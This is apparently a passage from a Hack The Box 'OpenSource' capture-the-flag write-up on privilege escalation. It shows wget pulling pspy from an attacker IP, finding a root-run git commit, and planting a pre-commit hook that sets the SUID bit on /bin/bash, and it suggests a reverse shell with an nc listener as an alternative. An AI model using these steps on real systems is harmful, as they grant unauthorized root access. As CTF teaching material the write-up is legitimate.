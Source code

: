 ````
dev01@opensource:~$ whoami
dev01
````

&nbsp;

# Privilege Escalation

Priv-esc is done looking at running processes on the machine.
We download `pspy64` on our Kali and pass it to the target:

````
wget http://10.10.16.37:4848/pspy .
````

 The tool performs some checks on the system without the need of having root permissions. Launch it:

````
dev01@opensource:~$ chmod +x pspy64                                                                                                                                                   
dev01@opensource:~$ ./pspy64                                                                                                                                                                   
````

The tool will show a list of running processes. For many of them it is used `UID 0`, meaning that those actions are performed with root permissions. 

In the list there is also a `git commit` command running approximately every minute:

![HTB_gitCommit](/img/htb/opensource/gitCommit.png)

This can be abused to priv-esc on the machine abusing the `pre-commit` hook!

> Git hooks are scripts that perform automated actions when a specific action is performed in the git client or command line. The git hook name usually indicates the hook’s trigger (e.g. pre-commit).
> Git hooks live under the .git folder of your repo in a directory called hooks. The path to the hooks will look similar to repo/.git/hooks.

Under `/home/dev01/.git/hooks` on the target machine there are different hooks with the `.sample` extension. In order to activate one of them we need to delete the extension or create one from scratch.

Let's create a new hook named `pre-commit`!. The file can contain a reverse shell (that combined with a `nc` listener on our machine will give us a root shell) or any other command that we can leverage to obtain privileged access on the machine. 

For example, the following command will set the SUID binary for `/bin/bash`, making it possible to run it with root permissions:

````bash
# content of pre-commit

chmod u+s /bin/bash
````

Make the file executable:
